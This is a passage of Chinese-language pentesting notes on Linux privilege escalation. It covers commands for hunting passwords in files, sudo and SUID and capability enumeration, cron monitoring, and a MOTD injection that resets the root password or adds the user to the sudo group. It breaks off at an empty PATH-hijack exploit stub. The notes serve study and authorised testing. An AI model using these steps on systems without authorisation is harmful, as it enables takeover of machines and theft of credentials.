 ```Shell
# 查看程序执行情况
grep -Ri "proc_name" /etc 2>/dev/null
# 或单行显示
find / -user root -type f -perm -o=rwx 2>/dev/null -exec ls -l {} \;

find /var/www/html -name '*.php' -type f -exec grep -r 'pass*' {} \;

# 查看开启的服务
ss -antlp
```

### 尝试sudo
查看可以使用sudo权限执行的命令
```Shell
sudo -l
```
利用方式参考：[GTFOBins](https://gtfobins.github.io/)

### 定时任务提权
查看是否有定时任务
```Shell
crontab -l

./pspy64
# 看看有没有进程定时执行
```
TODO

### MOTD注入
MOTD(message of the day)
其实都是一些Shell脚本，每次有用户登录时，这些脚本都会执行，如果有编辑权限的话就可以修改
```Shell
# 改root密码
echo 'root:33334444' | chpasswd
# 或将当前用户加入sudo组 前提得知道登录密码
usermod -a -G sudo current_user
```

### Capabilities
查看特权程序
```Shell
/sbin/getcap -r / 2>/dev/null
```
利用方式：[linux-capabilities](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/linux-capabilities.md)

### SUID提权
查找SUID文件
```Shell
find / -type f -user root -perm -u+sx -ls 2>/dev/null
find / -perm -u=s -type f -user root -executable -ls 2>/dev/null
```
如果脚本的执行过程中，命令(command_name)没有指定路径，可以通过修改环境变量覆盖执行
```Shell
cd /tmp
mkdir exp
cd exp
vi exp.c
```
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

```
